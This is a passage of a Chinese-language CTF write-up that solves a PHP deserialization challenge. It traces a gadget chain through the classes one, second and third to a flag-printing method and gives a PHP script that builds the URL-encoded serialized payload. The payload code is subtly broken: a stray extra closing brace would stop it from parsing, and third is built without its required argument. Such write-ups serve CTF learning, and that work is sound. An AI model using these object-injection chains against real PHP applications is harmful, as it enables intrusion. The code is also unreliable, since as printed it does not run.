 分析一下，变量var的值为  this−>name，也就是$this->string，然后调用一个方法，其中name的值不可控，var的值可以通过修改string的属性来控制，也就是说这里就能动态调用了。

梳理一下链子如下

one::destruct => second::call => second::addMe => one::toString => third::get => one:MeMeMe

这个时候的payload，

```
<?php
class one {
    public $object;
}
 
 
class second {
    public $filename;
}
 
 
class third {
    private $string;
    
    public function __construct($string) {
    $this->string = $string;
}
}}
 
$a=new one();
$a->object=new second();
$a->object->filename=new one();
$a->object->filename->object=new third();
 
echo urlencode(serialize($a));
```

在本地调试，链子执行的情况正如所预期的那样，

在one:MeMeMe中拿到flag

```
public function MeMeMe() {
            array_walk($this, function($fn, $prev){
                if ($fn[0] === "Happy_func" && $prev === "year_parm") {
                    global $talk;
                    echo "$talk"."</br>";
                    global $flag;
                    echo $flag;
                }
            });
        }
```

array_walk函数的作用就是遍历自定义函数，其中$fn的值为成员的值，prev为成员变量的名字
